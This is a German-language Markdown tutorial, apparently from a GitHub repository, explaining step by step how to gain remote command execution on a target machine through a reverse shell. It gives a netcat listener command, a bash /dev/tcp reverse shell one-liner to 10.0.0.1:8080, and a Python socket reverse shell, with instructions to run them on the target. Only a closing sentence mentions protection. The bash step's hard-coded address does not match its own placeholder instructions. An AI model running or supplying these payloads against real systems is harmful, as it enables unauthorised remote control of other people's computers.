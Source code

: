 # Reverse-Shell-Anleitung
Eine Reverse-Shell ist eine Methode, mit der ein Angreifer eine Verbindung zu einem Zielrechner herstellen und Remote-Code ausführen kann. In dieser Anleitung zeige ich Ihnen, wie Sie eine Reverse-Shell mit Netcat einrichten.

## Schritt 1: Listener erstellen
Zunächst müssen Sie einen Listener auf einem öffentlich zugänglichen Rechner erstellen. Hierfür verwenden wir Netcat:

```
nc -lvp 4444
```

Dieser Befehl erstellt einen Listener auf Port 4444 und gibt eine Verbindung an, wenn ein Client eine Verbindung herstellt.

## Schritt 2: Reverse-Shell-Payload erstellen
Als nächstes müssen Sie einen Reverse-Shell-Payload erstellen, der auf dem Zielrechner ausgeführt wird. Hierfür können Sie eine der folgenden Optionen verwenden:

=== "Bash-Reverse-Shell"

    Führen Sie auf dem Zielrechner den folgenden Befehl aus, um eine Bash-Reverse-Shell zu erstellen:

    ```
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
    ```

    Ersetzen Sie <listener-ip> durch die IP-Adresse des Rechners, auf dem Sie den Listener erstellt haben, und <listener-port> durch den Port, auf dem der Listener läuft.

=== "Python-Reverse-Shell"

    Führen Sie auf dem Zielrechner den folgenden Befehl aus, um eine Python-Reverse-Shell zu erstellen:

    ```
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<listener-ip>",<listener-port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

    Ersetzen Sie <listener-ip> durch die IP-Adresse des Rechners, auf dem Sie den Listener erstellt haben, und <listener-port> durch den Port, auf dem der Listener läuft.

## Schritt 3: Reverse-Shell ausführen
Nachdem Sie den Reverse-Shell-Payload auf dem Zielrechner ausgeführt haben, sollten Sie eine Verbindung auf dem Listener-Rechner sehen. Sie können jetzt Remote-Befehle ausführen, indem Sie sie auf dem Listener-Rechner eingeben.

## Fazit
Eine Reverse-Shell ist ein mächtiges Werkzeug, das von Angreifern verwendet werden kann, um die Kontrolle über einen Zielrechner zu übernehmen. Es ist wichtig, dass Sie sich bewusst sind, wie eine Reverse-Shell funktioniert und wie Sie sich dagegen schützen können. Wir hoffen, dass Ihnen diese Anleitung dabei geholfen hat, ein besseres Verständnis dafür zu bekommen.